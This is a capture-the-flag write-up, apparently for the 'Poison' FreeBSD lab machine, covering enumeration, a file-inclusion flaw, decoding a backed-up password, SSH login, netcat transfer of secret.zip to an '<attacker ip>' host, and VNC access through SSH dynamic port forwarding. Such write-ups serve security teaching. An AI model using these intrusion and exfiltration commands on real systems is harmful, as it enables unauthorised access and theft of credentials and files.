






# Enumeration

## Run Nmap Scan

```bash
nmap 10.129.1.254 -T4 -p-

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-28 10:31 BST
Nmap scan report for 10.129.1.254
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 336.37 seconds
"
```

## View Website



### Checking listfiles.php



“pwdbackup.txt” seems interesting!

### Checking Password Backup Files

Copy the file and save it as passwd_encoded.txt



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.1.254/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.1.254/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/28 10:34:10 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htpasswd            (Status: 403) [Size: 218]
/.htaccess            (Status: 403) [Size: 218]
/index.php            (Status: 200) [Size: 289]
/info.php             (Status: 200) [Size: 157]
/phpinfo.php          (Status: 200) [Size: 68156]
                                                 
===============================================================
2023/09/28 10:34:47 Finished
===============================================================
"
```

## Testing Local File Inclusion (LFI)





Here we can know that the username is “charix”

## Base64 Decoding

```python
import base64

text = ''
with open("passwd_encoded.txt", 'r') as f:
    text = f.read()

for _ in range(30):
    try:
        text = base64.b64decode(text)
        print(text)
    except:
        print('Can\'t decrypt anymore')
        exit()
```

```bash
python decode.py

"
b'Vm0wd2QyUXlVWGxXYTFwUFZsZFNjRlZ0TVZOWFJsbDNXa2M1VjJKR2JETlhhMUpUVmpGYWMySkVU\nbGhoTVVwVVZtcEdTMlJIVmtkWApiRnBPWVd0RmVGWnRjRXRUTVU1SVZtdFdVZ3BpVlZwWVZtMTRj\nMDB4WkZkYVJGSlVUV3N4TkZkcmFGZGhVWEJUWWxaS1VGZFhNVFJTCk1EQjRWMjVTYTFKc2NITlZi\nWGh6VGxaYVNHUklUbWhWV0VKVVdXeGFTMlF4V25Sa1IwWmFDbFpzV2xoWGExcHJXVlpLUjFOdFJs\nZGgKYTBZMFZHdGFZVk5GTlZkYVIyaFdWMFZLVlZkWGVHRlRNVnBYVjJ0a1ZtRXpVbkJEYXpGeVlr\nUlNWMDFxVmt4V01uTjNaVmRHUjFWcwpjR2tLVW01Q2IxZHNaRFJXTWxKR1RsWmtZVkl5YUZOV01G\nWkxWbFprV0dWSGRHbE5iRXA2VjJ0YWExWnRSWHBWYms1RVlsVndXRll5CmRHOVdNREZ4Vm10NFdG\nWnNjRXhWYWtaUFl6Rldjd3BXYkdOTFdXdG9RbVZzV25SalJXUldUVlpzTkZZeU5VOVpWa2w1WVVa\na1YwMUcKV2t4V2JGcGhaRVV4VlZGdGRFNWhNbmN3VmpKMGIxUXhiRmRVYTJoV1lrVTFSVmxzVmxw\nTmJGcDBDbVZIT1ZkaVZYQkpXVlZvZDFZdwpNWEZTYkdoaFVsZFNXRlZxUms5amQzQmhVbTFPVEZk\nWGVGWmtNbEY0VjJ0V1UySkhVbFpVVjNSM1pXeFdXR1ZHWkZWaVJYQmFWa2QwCk5GSkdjRFlLVFVS\nc1JGcDZNRGxEWnowOUNnPT0K\n'
b'Vm0wd2QyUXlWa1pPVldScFVtMVNXRll3Wkc5V2JGbDNXa1JTVjFac2JETlhhMUpUVmpGS2RHVkdX\nbFpOYWtFeFZtcEtTMU5IVmtWUgpiVVpYVm14c00xZFdaRFJUTWsxNFdraFdhUXBTYlZKUFdXMTRS\nMDB4V25Sa1JscHNVbXhzTlZaSGRITmhVWEJUWWxaS2QxWnRkR0ZaClZsWlhXa1prWVZKR1NtRldh\na0Y0VGtaYVNFNVdaR2hWV0VKVVdXeGFTMVpXV2tkVmEzUnBDazFyYkRSV01qVkxWMnN3ZVdGR1Vs\ncGkKUm5Cb1dsZDRWMlJGTlZkYVIyaFNWMFZLVlZkWGVHdGlNbEp6V2taa1ZtRXpVbk5EYlVwWFYy\ndG9WMDFxVmt4WFZscExVakZPYzFWcwpWbGNLWWtoQmVsWnRjRWRWTVZsNFYyNU9ZVkl5YUZkV01G\nWkxWbFphZEUxVVFtdE5hMncwVjJ0b1QxbFdUa2hWYkU1RVlsVlpNbFp0CmVHOVdiVXBJWVVod1Yw\nMXFSbGhhUldSWFVqRk9jd3BhUm1OTFdXeFZkMlF4V2tWU2JHUlZUV3R3ZWxWWGVGZFViRXBaVkd0\nNFJGcDYKTURsRFp6MDlDZz09Cg==\n'
b'Vm0wd2QyVkZOVWRpUm1SWFYwZG9WbFl3WkRSV1ZsbDNXa1JTVjFKdGVGWlZNakExVmpKS1NHVkVR\nbUZXVmxsM1dWZDRTMk14WkhWaQpSbVJPWW14R00xWnRkRlpsUmxsNVZHdHNhUXBTYlZKd1ZtdGFZ\nVlZXWkZkYVJGSmFWakF4TkZaSE5WZGhVWEJUWWxaS1ZWWkdVa3RpCk1rbDRWMjVLV2sweWFGUlpi\nRnBoWld4V2RFNVdaR2hSV0VKVVdXeGtiMlJzWkZkVmEzUnNDbUpXV2toV01qVkxXVlpLUjFOc1Vs\nVlcKYkhBelZtcEdVMVl4V25OYVIyaFdWMFZLVlZadE1UQmtNa2w0V2toT1lWTkhVbE5EYlVZMlZt\neG9WbUpIYUhwV01qRlhaRWRXUjFOcwpaRmNLWWxVd2QxWkVSbGRVTWtwelVXeFdUbEpZVGt4RFp6\nMDlDZz09Cg==\n'
b'Vm0wd2VFNUdiRmRXV0doVlYwZDRWVll3WkRSV1JteFZVMjA1VjJKSGVEQmFWVll3WVd4S2MxZHVi\nRmROYmxGM1ZtdFZlRll5VGtsaQpSbVJwVmtaYVVWZFdaRFJaVjAxNFZHNVdhUXBTYlZKVVZGUkti\nMkl4V25KWk0yaFRZbFphZWxWdE5WZGhRWEJUWWxkb2RsZFdVa3RsCmJWWkhWMjVLWVZKR1NsUlVW\nbHAzVmpGU1YxWnNaR2hWV0VKVVZtMTBkMkl4WkhOYVNHUlNDbUY2VmxoVmJHaHpWMjFXZEdWR1Ns\nZFcKYlUwd1ZERldUMkpzUWxWTlJYTkxDZz09Cg==\n'
b'Vm0weE5GbFdWWGhVV0d4VVYwZDRWRmxVU205V2JHeDBaVVYwYWxKc1dubFdNblF3VmtVeFYyTkli\nRmRpVkZaUVdWZDRZV014VG5WaQpSbVJUVFRKb2IxWnJZM2hTYlZaelVtNVdhQXBTYldodldWUktl\nbVZHV25KYVJGSlRUVlp3VjFSV1ZsZGhVWEJUVm10d2IxZHNaSGRSCmF6VlhVbGhzV21WdGVGSldW\nbU0wVDFWT2JsQlVNRXNLCg==\n'
b'Vm0xNFlWVXhUWGxUV0d4VFlUSm9WbGx0ZUV0alJsWnlWMnQwVkUxV2NIbFdiVFZQWVd4YWMxTnVi\nRmRTTTJob1ZrY3hSbVZzUm5WaApSbWhvWVRKemVGWnJaRFJTTVZwV1RWVldhUXBTVmtwb1dsZHdR\nazVXUlhsWmVteFJWVmM0T1VOblBUMEsK\n'
b'Vm14YVUxTXlTWGxTYTJoVllteEtjRlZyV2t0VE1WcHlWbTVPYWxac1NubFdSM2hoVkcxRmVsRnVh\nRmhoYTJzeFZrZDRSMVpWTVVWaQpSVkpoWldwQk5WRXlZemxRVVc4OUNnPT0K\n'
b'VmxaU1MySXlSa2hVYmxKcFVrWktTMVpyVm5OalZsSnlWR3hhVG1FelFuaFhha2sxVkd4R1ZVMUVi\nRVJhZWpBNVEyYzlQUW89Cg==\n'
b'VlZSS2IyRkhUblJpUkZKS1ZrVnNjVlJyVGxaTmEzQnhXakk1VGxGVU1EbERaejA5Q2c9PQo=\n'
b'VVRKb2FHTnRiRFJKVkVscVRrTlZNa3BxWjI5TlFUMDlDZz09Cg==\n'
b'UTJoaGNtbDRJVElqTkNVMkpqZ29NQT09Cg==\n'
b'Q2hhcml4ITIjNCU2JjgoMA==\n'
b'Charix!2#4%6&8(0'
Can't decrypt anymore
"
```

## User Credentials

```
Username: charix
Password: Charix!2#4%6&8(0
```

# Exploitation

## SSH to the system

```bash
ssh charix@10.129.1.254

`
The authenticity of host '10.129.1.254 (10.129.1.254)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.254' (ECDSA) to the list of known hosts.
Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Simple tcsh prompt: set prompt = '%# '
charix@Poison:~ % whoami
charix
charix@Poison:~ %
`
```

# Privilege Escalation

## Searching Processes Running in Root Permission

When we search for processes, we use `ps aux` command

`-u` for showing process status

`-ax` for showing all the processes

`-w` for showing full information that has been cut

```bash
ps auwwx | grep vnc

"
root    608   0.0  0.9  23620  8872 v0- I    11:24     0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
charix 1329   0.0  0.0    412   328  1  R+   15:21     0:00.00 grep vnc
"
```

The information above (`-rfbport 5901 -localhost`) tells us that VNC is not accessible outside the local computer (victim’s computer)

## Move the Secret.zip to Attacker Side and Decompress the file

If you try `unzip secret.zip` , it will not ask for password. Instead just raises an error message. Hence, we will move the file to our system and decompress it.

```bash
# Run this command in our attack machine
nc -lp 4443 > secret.zip

# Run this command in the victim machine
nc -w 3 <attacker ip> 4443 < secret.zip
```

Unzip the file

```bash
unzip secret.zip
```

## Using Port Forwarding Technique to pivot the VNC

### Configuration for Redirecting Port to Localhost

```bash
# /etc/proxychains.conf

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 4445
```

### Dynamic Port Forwarding to the Remote Host

Binds the local port `4445` to the remote host (Port `22`).

```bash
ssh charix@10.129.1.254 -D 4445
```

### Access the VNC through Dynamic Port Forwarding

Port `4445` maps the ip to `127.0.0.1`(The victim’s [localhost](http://localhost) for VNC connection). Hence, connection is established through dynamic port forwarding

```bash
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```

